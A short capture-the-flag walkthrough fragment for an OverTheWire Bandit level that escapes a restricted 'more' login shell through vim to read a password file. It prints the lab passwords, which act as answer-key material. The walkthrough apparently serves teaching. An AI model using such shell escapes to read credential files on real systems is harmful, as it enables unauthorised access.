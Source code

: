 ```
user@host:~$ ssh bandit25@bandit.labs.overthewire.org -p 2220
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

So if we rescale our terminal, then not all text should be printed at once and we can interact using vim.

```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:e /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
